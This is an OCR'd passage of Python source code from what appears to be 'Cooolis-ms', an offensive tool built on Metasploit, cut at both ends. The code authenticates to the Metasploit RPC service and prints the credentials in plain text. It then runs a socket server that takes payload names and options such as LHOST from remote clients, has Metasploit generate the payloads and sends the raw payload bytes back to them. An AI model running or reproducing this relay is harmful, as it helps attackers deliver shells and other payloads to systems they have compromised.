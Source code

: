 ```
                return result
        except Exception as e:
            sys.stderr.write(str(e)+"\nRef:https://metasploit.help.rapid7.com/docs/standard-api-methods-referenc\n")
    

    def _get_token(self):
        options = ["auth.login",self.username,self.password]
        
        result = self._request(options)
        self.token = str(result[b'token'],encoding = "utf8")
        term.writeLine("[*]Token: {token} Username : {username} Password : {password}".format(token=self.token,username=self.username,password=self.password),term.green)
    
    # 打包数据
    def __pack(self,pack_str):
        return msgpack.packb(pack_str)
    
    # 解包数据
    def __unpack(self,pack_str):
        return msgpack.unpackb(pack_str)

    def __send_payload(self,payload,options):
        term.writeLine("[*]PAYLOAD: {payload}".format(payload=payload),term.green)
        pack_data = ["module.execute",self.token,"payload",payload,options]
        return self._request(pack_data)

    def handle(self):
        term.writeLine("[*]New connection: {client}".format(client=self.client_address),term.green)
        self._get_token()
        while True:
            data = self.request.recv(1024)
            if not data:break
            try:
                data = struct.unpack(">200s200s200sLHH",data)
                options = {}
                str_json = data[1].decode('UTF-8')
                str_json = str_json.strip('\x00')
                # print("Options : %s size : %d",str_json,len(str_json))
                for x in str_json.split(','):
                    k,v = x.split('=',2)
                    # print(k,":",v)
                    options.update({k.strip():v.strip()})
                payload = data[0].decode('UTF-8')
                payload = payload.strip('\x00')
                # print("Payload : %s Options : %s " % (payload,options['LHOST']))
                recv_payload = self.__send_payload(payload,options)
                # print("Send ..  %s ",recv_payload)
                payload_size = len(recv_payload[b'payload'])
                self.request.send(payload_size.to_bytes(4,byteorder='little',signed=False))
                self.request.send(recv_payload[b'payload'])
                self.request.close()
            except Exception as e:
                term.writeLine("[!]{error}".format(error=str(e)),term.red)
                pass
            finally:
                break

def main():
    example = 'Example:\n\n$ python3 server.py -U msf -P msf -v -s -l 4444'
    args = ArgumentParser(prog='Cooolis-ms',epilog=example)
    args.add_argument('-U','--username',help='Metasploit web service username',required=True)
    args.add_argument('-P','--password',help='Metasploit web service password',required=True)
```